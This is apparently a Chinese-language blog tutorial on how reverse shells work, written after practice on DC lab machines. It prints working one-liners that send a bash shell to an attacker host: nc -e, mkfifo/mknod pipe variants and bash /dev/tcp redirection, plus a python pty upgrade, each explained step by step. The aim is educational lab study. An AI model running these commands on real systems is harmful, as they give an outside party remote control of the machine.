 ```yaml
---
title: 反弹shell
tags: web shell
tags: shell
renderNumberedHeading: true
grammar_cjkRuby: true
---
```



欢迎使用 **{小书匠}(xiaoshujiang)编辑器**，您可以通过 `小书匠主按钮>模板` 里的模板管理来改变新建文章的内容。
# 前言
最近这几天在做那个DC的靶场，一直在用反弹shell，但是仅仅是知道基本的反弹shell，其他的一点也不知道，所以这次就来学习下反弹shell
# 什么是反弹shell
使用Google hack语法搜索了一下，发现了很多的讲反弹shell的文章，但是具体讲反弹shell原理的并没有几个。
反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。
# 为什么要用反弹shell
反弹shell通常用于被控端因防火墙，权限不足，端口被占用等的情况
举例：假设你现在进入了一个机器的端口，现在该做的就是从本机连接攻击端，这是最常见的攻击方式。远程桌面，web服务，ssh，telnet等等，都是正向连接。
但是现在问题来了：
被控端的IP是动态改变的，无法进行持续的控制
被控端在局域网内，这样就导致你种的马无法进行连接
被控端防火墙受限，只能发送请求不能接收你的请求。
这时，选择利用反弹shell才是上策。因此，反弹shell的方式就是被控端给攻击端发送请求建立连接的一种方式

# 反弹shell的常见利用方式
## 实验环境

``` javascript
攻击机：kali linux：192.168.2.130
被控机：centos：192.168.2.139
```
## 开始
攻击机监听端口：

``` javascript
nc -nlvp 4444
```
被控机执行：

``` javascript
nc -e /bin/bash 192.168.2.130 4444
```
执行效果
![enter description here](./images/1622342826451.png)
之后可以利用python打开交互式界面

``` python
python -c "import pty;pty.spawn('/bin/bash')"
```
![enter description here](./images/1622343003473.png)
得到交互式界面。之后就可以进行提权等的一系列操作。
## 命令说明
在上面用到的命令`nc -e /bin/bash 192.168.2.130 4444`实现了反弹shell。

``` bash
nc #netcat简称，目前基本上所有的Linux都适配了这个工具，可实现任意TCP/UDP端口的侦听。
参数：-n 不反向解析dns，即不通过IP解析域名
		   -v 详细信息输出
		   -l 监听
		   -p 指定端口
		   -e 程序重定向
```

``` bash
/bin/bash #由GNU开发的Shell，主要目标是与POSIX标准保持一致，同时兼顾对sh的兼容，bash从csh和ksh借鉴了很多功能，是各种Linux发行版标准配置的Shell，在Linux系统上/bin/sh往往是指向/bin/bash的符号链接。此外还有其他的shell，如：sh、zsh等
```
所以上面的命令就是使用`netcat`将`shell`发送给指定的IP执行。
但是对于有些nc版本并没有-e参数，这样要如何实现呢？

``` bash
攻击机：nc -nlvp 4444
被控端： mknod [filename] p;nc [攻击机IP] [攻击机端口] 0<[filename] | /bin/sh 1>[filename]
```
效果
![enter description here](./images/1622354813842.png)
![enter description here](./images/1622354823892.png)
解释(个人简单理解)：
mknod命令创建了一个管道，然后通过nc命令将内容输入到管道文件中，然后传递给/bin/sh，sh会将管道文件的命令执行并将标准输出传到该管道，形成了一个回路。
类似命令：

``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip] [port] >/tmp/f
```
上面说的是利用netcat进行的反弹方式，下面介绍一下最常见的bash利用方法。

``` bash
bash -i >& /dev/tcp/192.168.2.130/4444 0>&1
```
简单解释：

``` bash
bash -i：
	bsh前面说了，是Linux中比较常见的一个shell
	-i 这个参数表示的是产生交互式的shell
/dev/tcp/ip/port：
	这个文件是一个特殊的设备文件你如果去访问是无法访问到的
	
```
对于一个文件，Linux中分为七种：

| 文件标识类型 | 文件类型 |
| ------------ | -------- |
| -            | 普通文件 |
| d            | 目录     |
| l            | 符号链接 |
| s            | 套接字   |
| b            | 块设备   |
| c            | 字符设备 |
| p            |       管道   |

![enter description here](./images/1622357141220.png)
![enter description here](./images/1622357226207.png)
虽然说这个文件并不存在但是如果在监听情况下对这个文件进行读写，就能实现反弹shell的效果。
而对于这个经典的反弹shell，其实可以拆分一下，这样子更加方便理解

``` bash
bash -i > /dev/tcp/ip/port
bash -i < /dev/tcp/ip/port

```
理解起来很简单
第一个命令，将输入的指令标准输入到攻击机上面，因此这样子的话，在被控端输入的任何指令都无法得到回显。
![enter description here](./images/1622358014269.png)
图片中上被控端输入的话得不到任何的回显。但是这样子话，我们好像并没有得到想要的效果，所以就有了第二个命令
对于第二个命令，意思就是将输入的命令传给被控端的bash，这样子自然就能执行了

![enter description here](./images/1622358799708.png)
现在，这两个命令结合一下，得到

``` bash
bash -i > /dev/tcp/ip/port 0>&1
```
但是这样的话所有在攻击机执行的命令都会在被控端得到回显
![enter description here](./images/1622359035319.png)
![enter description here](./images/1622359044440.png)
这样子又会让被控端知道你在干什么，所以要进行改良，就得到了最开始给的那个经典的反弹shell
执行之后
![enter description here](./images/1622359117852.png)
![enter description here](./images/1622359129090.png)
得不到回显
同样有类似的相同功能的命令

``` bash
bash -i > /dev/tcp/ip/port 0>&1 2>&1
```
对于这些符号，网上有很多的师傅们都总结过用法以及意思，就不进行总结，这里给一下我看到的一个[师傅的文章](https://xz.aliyun.com/t/2548)写的相关内容
# 总结
对于反弹shell的方法有很多，网络上面有各种各样的形式的反弹shell，但是用起来原理都是一样的，看到有很多形式的反弹shell，就是只有形式不给原理，就想学习一下原理是什么，文中可能因为水平有限解释的不到位，还请海涵。